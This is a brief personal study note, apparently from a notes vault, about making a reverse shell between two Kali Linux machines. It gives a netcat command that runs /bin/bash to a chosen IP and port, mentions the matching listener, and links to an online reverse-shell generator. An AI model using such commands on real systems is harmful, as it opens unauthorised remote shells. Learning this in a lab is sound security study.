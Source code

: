 ### Reverseshell in linux 

> To do a reverseshell from kali linux  to kali linux you can use this command 
> NC -e  /bin/bash ip + port number where you want the connection go through always remember to use the port that you are using with the netcat listener. 

You can connect to a pc using [[SSH-Connection]] which is better but more difficult

There is a website for reverseshell called [Online - Reverse Shell Generator (revshells.com)](https://www.revshells.com/) in this website you can generate any type of reverseshell 

